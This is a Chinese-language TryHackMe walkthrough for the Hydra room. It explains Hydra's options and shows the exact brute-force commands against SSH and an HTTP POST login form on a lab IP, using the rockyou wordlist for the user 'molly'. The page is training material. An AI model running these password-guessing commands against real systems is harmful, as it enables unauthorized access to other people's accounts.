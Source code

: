 ```yaml
---
{"dg-publish":true,"permalink":"/tryhackme/tryhackme-hydra-基础知识/","title":"tryhackme-hydra 基础知识","tags":["linux","tryhackme"]}
---
```


![t](/img/user/images/tryhackme-hydra-基础知识/title.png)

Hydra是啥
Hydra是一款暴力在线密码破解程序，一种快速系统登录密码“破解”工具。

SSH
hydra -l <username> -P <full path to pass> 10.10.228.178 -t 4 ssh

| 选项 | 描述 |
|------|------|
| -l   | 指定登录的（SSH）用户名 |
| -P   | 表示密码列表 |
| -t   | 设置要生成的线程数 |

例如， hydra -l root -P passwords.txt 10.10.228.178 -t 4 ssh将使用以下参数运行：

Hydra将root用作 ssh用户名
passwords.txt 它将尝试文件中的密码
将会有四个线程并行运行，如下所示 -t 4



发布 Web 表单
我们也可以使用Hydra来暴力破解 Web 表单。必须知道它发出的是哪种类型的请求；通常使用 GET 或 POST 方法。您可以使用浏览器的网络选项卡（在开发人员工具中）查看请求类型或查看源代码。

```
sudo hydra <username> <wordlist> 10.10.228.178 http-post-form "<path>:<login_credentials>:<invalid_response>"
```

| 选项            | 描述 |
|----------------|------|
| -l            | （Web 表单）登录的用户名 |
| -P            | 要使用的密码列表 |
| http-post-form | 表单类型为 POST |
| <path>        | 登录页面 URL，例如 login.php |
| <login_credentials> | 用于登录的用户名和密码，例如 `username=^USER^&password=^PASS^` |
| <invalid_response>  | 登录失败时的部分响应 |
| -V            | 每次尝试的详细输出 |


下面是一个更具体的Hydra命令示例，用于强制执行 POST 登录表单：
```
hydra -l <username> -P <wordlist> 10.10.228.178 http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V
```
登录页面只有/，即主IP地址。
这username是输入用户名的表单字段
指定的用户名将替换^USER^
这password是输入密码的表单字段
提供的密码将取代^PASS^
最后，F=incorrect是登录失败时服务器回复中出现的字符串



![task1](/img/user/images/tryhackme-hydra-基础知识/task1.png)

第一问
```
hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.228.178 http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect" -V
```

在破解的时候要注意路径 是/login 

![task1](/img/user/images/tryhackme-hydra-基础知识/pass.png)

![task1](/img/user/images/tryhackme-hydra-基础知识/flag.png)

第二问
```
hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.228.178 ssh
```

![task1](/img/user/images/tryhackme-hydra-基础知识/butterfly.png)